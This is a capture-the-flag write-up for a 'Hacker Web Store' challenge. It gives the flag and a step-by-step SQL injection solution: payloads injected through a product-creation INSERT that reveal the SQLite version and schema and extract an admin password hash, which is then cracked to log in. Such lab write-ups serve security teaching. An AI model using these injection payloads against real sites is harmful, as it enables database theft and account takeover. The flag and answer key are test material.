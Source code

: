 # Hacker Web Store
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules.

# Flag
flag{87257f24fd71ea9ed8aa62837e768ec0}

# Solution
Vulnerable to SQL Injection when executing INSERT statements to create new products. 

Assuming SQL statement is similar to this:

```sql
INSERT INTO products (name,price,desc)
VALUES ('test',2,'test');
```

Injecting: `name=test',10,(select+sqlite_version()))--+-&price=4&desc=hi`
```
3.31.1
```

Injecting: `name=test',10,(select+sql+from+sqlite_master))--+-&price=4&desc=hi`
```
CREATE TABLE users ( id INTEGER NOT NULL, name VARCHAR(100), password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```

Injecting: `name=test',10,(select+id||CHAR(32)||name||CHAR(32)||password+from+users+where+id=3))--+-&price=4&desc=hi`
```
3 website_admin_account pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```

Tried to use hashcat to crack but to no avail. Eventually used a script (see `brute.py`) 

```
[*] Hash cracked! (ntadmin1234):True
That took 37.410451889038086 seconds
```

Logging into the admin portal with the credentials (`website_admin_account:ntadmin1234`) gives the flag.

